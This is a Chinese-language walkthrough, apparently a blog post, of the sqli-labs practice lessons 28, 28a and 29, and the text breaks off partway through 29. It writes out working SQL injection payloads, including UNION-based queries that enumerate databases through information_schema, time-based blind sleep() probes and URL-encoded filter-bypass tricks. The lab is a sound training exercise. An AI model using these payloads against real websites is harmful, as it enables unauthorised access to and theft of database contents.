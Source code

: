 也可以使用时间盲注<br />1.http://www.web.com/sql/Less-28/?id=1')  %a0   %26%26 if( length(database())>1, 1, sleep(5)    ) ;%00<br />2.http://www.web.com/sql/Less-28/?id=1')  %a0   %26%26 if( length(database())>1, 1, sleep(5)    )  %26%26  ('1')=(‘1<br />这两种方法都是可行的。


# Sqli-labs-Less-28a
![](https://img-blog.csdnimg.cn/20200723151853792.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=gEncf&originHeight=369&originWidth=1195&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />http://www.web.com/sql/Less-28a/?id=1')
报错<br />http://www.web.com/sql/Less-28a/?id=1');%00<br />成功。说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200723102026238.png#crop=0&crop=0&crop=1&crop=1&id=ctH9u&originHeight=153&originWidth=441&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断列数**<br />http://www.web.com/sql/Less-28a/?id=1') order by 3;%00<br />成功，说明存在3列<br />![](https://img-blog.csdnimg.cn/202007231021443.png#crop=0&crop=0&crop=1&crop=1&id=ARl7h&originHeight=140&originWidth=435&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询当前库**<br />http://www.web.com/sql/Less-28a/?id=1111')%a0union%a0select%a01,2,database();%00<br />![](https://img-blog.csdnimg.cn/20200723102839542.png#crop=0&crop=0&crop=1&crop=1&id=rnGZV&originHeight=141&originWidth=445&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-28a/?id=1111')%a0union%a0select%a01,2,group_concat(schema_name)%a0from%a0information_schema.schemata;%00<br />![](https://img-blog.csdnimg.cn/20200723104222818.png#crop=0&crop=0&crop=1&crop=1&id=FKv6u&originHeight=158&originWidth=1236&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**以下步骤与Sqli-labs-Less-28基本相同不进行详细叙述**

**也可使用时间盲注**<br />1.http://www.web.com/sql/Less-28a/?id=11111') %a0  or  %a0   if( length(database())=8, 1, sleep(5)    ) --+<br />或者是<br />2.http://www.web.com/sql/Less-28a/?id=1‘) %a0  and  %a0   if( length(database())=8, 1, sleep(5)    ) --+<br />此时要确保前面的id值是可以查到的，不能使用一个不存在的id值。


# Sqli-labs-Less-29
![](https://img-blog.csdnimg.cn/2020072311210966.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Hyyy5&originHeight=389&originWidth=1148&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**错误做法**<br />**查找注入点**<br />http://www.web.com/sql/Less-29/?id=1'<br />报错<br />http://www.web.com/sql/Less-29/?id=1'--+<br />![](https://img-blog.csdnimg.cn/20200723112214603.png#crop=0&crop=0&crop=1&crop=1&id=VPSWs&originHeight=141&originWidth=430&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**说明存在注入点**

**判断列数**<br />http://www.web.com/sql/Less-29/?id=1' order by 3--+<br />等于3时成功，等于4时失败，说明有3列<br />![](https://img-blog.csdnimg.cn/20200723112304978.png#crop=0&crop=0&crop=1&crop=1&id=d2KbU&originHeight=152&originWidth=433&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**这样做真的是正确的吗？不是的！**<br />**这样做就与Sqli-labs-Less-1没有任何区别**

看第九关的标题

![](https://img-blog.csdnimg.cn/20200723112550510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=YCGq2&originHeight=252&originWidth=848&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**这个网站受到世界上最好的防火墙保护**
